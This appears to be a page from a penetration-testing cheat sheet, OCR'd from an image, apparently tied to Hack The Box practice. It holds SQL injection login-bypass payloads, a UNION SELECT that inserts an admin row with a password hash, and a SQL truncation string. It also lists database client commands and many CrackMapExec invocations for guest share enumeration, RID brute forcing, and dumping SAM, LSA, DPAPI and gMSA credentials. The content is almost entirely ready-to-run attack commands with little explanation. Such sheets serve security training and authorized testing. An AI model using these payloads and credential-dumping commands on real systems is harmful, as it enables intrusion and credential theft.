 ```c
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

#### SQL Truncation Attack

```c
'admin@<FQDN>' = 'admin@<FQDN>++++++++++++++++++++++++++++++++++++++htb'
```

#### sqlite3

```c
sqlite3 <FILE>.db
```

```c
sqlite> .tables
sqlite> PRAGMA table_info(<TABLE>);
sqlite> SELECT * FROM <TABLE>;
```

#### sqsh

```c
sqsh -S <RHOST> -U <USERNAME>
sqsh -S '<RHOST>' -U '<USERNAME>' -P '<PASSWORD>'
sqsh -S '<RHOST>' -U '.\<USERNAME>' -P '<PASSWORD>'
```

##### List Files and Folders with xp_dirtree

```c
EXEC master.sys.xp_dirtree N'C:\inetpub\wwwroot\',1,1;
```

### Password Attacks

#### CrackMapExec

```c
crackmapexec ldap -L
crackmapexec mysql -L
crackmapexec smb -L
crackmapexec ssh -L
crackmapexec winrm -L
```

```c
crackmapexec smb <RHOST> -u '' -p '' --shares
crackmapexec smb <RHOST> -u '' -p '' --shares -M spider_plus
crackmapexec smb <RHOST> -u '' -p '' --shares -M spider_plus -o READ_ONLY=false
crackmapexec smb <RHOST> -u " " -p "" --shares
crackmapexec smb <RHOST> -u " " -p "" --shares -M spider_plus
crackmapexec smb <RHOST> -u " " -p "" --shares -M spider_plus -o READ_ONLY=false
crackmapexec smb <RHOST> -u guest -p '' --shares --rid-brute
crackmapexec smb <RHOST> -u guest -p '' --shares --rid-brute 100000
crackmapexec smb <RHOST> -u "guest" -p "" --shares --rid-brute
crackmapexec smb <RHOST> -u "guest" -p "" --shares --rid-brute 100000
crackmapexec ldap <RHOST> -u '' -p '' -M get-desc-users
crackmapexec smb <RHOST> -u "<USERNAME>" --use-kcache --sam
crackmapexec ldap <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --gmsa
crackmapexec ldap <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --gmsa -k
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --shares
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --sam
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --lsa
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --dpapi
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --sam
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --lsa
```